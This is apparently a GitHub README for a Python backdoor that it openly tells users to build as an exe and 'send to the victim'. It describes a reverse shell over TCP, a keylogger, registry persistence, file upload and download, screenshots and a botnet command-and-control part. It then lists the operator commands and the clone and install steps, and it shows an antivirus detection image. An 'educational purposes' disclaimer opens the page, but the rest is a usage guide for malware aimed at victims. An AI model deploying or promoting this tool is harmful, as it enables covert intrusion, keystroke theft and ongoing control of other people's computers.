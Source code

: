 -----

<p align="center">
<img src="https://repository-images.githubusercontent.com/437662725/49b887df-c77c-4365-9d15-c3357d8148ad", width="500", height="500">
</p>

-----
### <p align="center">📌 Disclaimer 📌</p>

<br><br>
* ***Please use this program only for educational purposes.***
* ***It is not meant to be used in any malicious way, and I decline any responsibility for what you do with it.***
<br><br>
## !! **Warning** this version doesn't support camera features it will be next version.
## A Backdoor based on python.
* Just create exe and send to the victim.
* In exe include keylogger also
* It is based on TCP and IPv4 connection.
* It will create a reverse shell connecion form victim system.
***
## Use
* It has command like persistence to boot itself when system restart , it also have keylogger, upload and download.
* It also have cnc or we call botnet.
***
### Use command like this.
```
            quit                                --> Quit Session With The Target
            clear                               --> Clear The Screen
            cd *Directory Name*                 --> Changes Directory On Target System
            upload *file name*                  --> Upload File To The target Machine
            download *file name*                --> Download File From Target Machine
            keylog_start                        --> Start The Keylogger
            keylog_dump                         --> Print Keystrokes That The Target Inputted
            keylog_stop                         --> Stop And Self Destruct Keylogger File
            persistence *RegName* *fileName*    --> Create Persistence In Registry'''),'green')
            screenshot                          --> To Take Screenshot of victim screen
```
***
* Put your ip and port at there place (sock.bind(('127.0.0.1', 4444))) like this at line 84 in server for backdoor at line 62 and in cnc at line 103.
***
```
git clone https://github.com/Malwareman007/malwareman_backdoor.git
cd malwareman_backdoor/setup
python3 -m pip install --no-cache-dir -r requirements.txt
```
***
### **Detection Of Exe**
![Detection](https://user-images.githubusercontent.com/86009160/171167620-10bbaf90-d6bf-4d39-8982-e49ed612feb3.jpg)
